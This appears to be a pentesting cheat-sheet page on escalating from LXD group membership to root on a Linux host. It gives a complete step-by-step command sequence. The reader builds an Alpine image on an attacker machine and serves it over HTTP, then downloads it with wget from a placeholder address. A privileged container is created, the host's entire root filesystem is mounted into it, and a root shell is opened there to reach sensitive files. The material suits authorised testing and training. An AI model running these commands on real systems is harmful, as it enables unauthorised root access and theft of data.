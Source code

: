 ```yaml
---
title: LXC/LXD (Linux Container/Daemon) Privilege Escalation
description: LXD is a container management extension for Linux Containers (LXC).
tags:
    - Privilege Escalation
refs:
date: 2023-01-30
draft: false
---
```


## Basic Flow

1. **Check if You are in the Lxd Group**

    If you belong to the Lxd group, you may be able to the root privileges.

    ```sh
    groups
    id
    ```

2. **Check if Container Image Exists**

    List all images and check if a container image already exists.

    ```sh
    lxc image list
    ```

    If there are not container, build a new image in your local machine.

    ```sh
    git clone  https://github.com/saghul/lxd-alpine-builder.git
    cd lxd-alpine-builder
    sudo ./build-alpine
    python3 -m http.server 8000
    ```

    In remote machine, download the “alpine-*.tar.gz” and import it.

    ```sh
    wget http://<local-ip>:8000/alpine-v3.17-x86_64-20221206_0615.tar.gz
    lxc image import ./alpine-v3.17-x86_64-20221206_0615.tar.gz --alias testimage
    lxc image list
    ```

    After that, create a new container from the image.

    ```sh
    lxc init testimage testcontainer -c security.privileged=true
    ```

    If you got the error “**No storage pool found. Please create a new storage pool.”, initialize the lxd at first.**

    ```sh
    lxd init
    # Set default values in prompt
    ```

    Then create a new container as above command.

3. **Mount the New Container to Root Directory**

    Now mount the host's **/** directory onto **/mnt/root** in the container you created.

    ```sh
    lxc config device add testcontainer testdevice disk source=/ path=/mnt/root recursive=true
    ```

4. **Start the Container**

    ```sh
    lxc start testcontainer
    ```

5. **Get a Shell**

    ```sh
    lxc exec testcontainer /bin/sh
    ```

    Check if you are root.

    ```sh
    whoami
    ```

6. **Retrieve the Sensitive Information in the Mounted Directory**

    ```sh
    cd /mnt/root/
    ```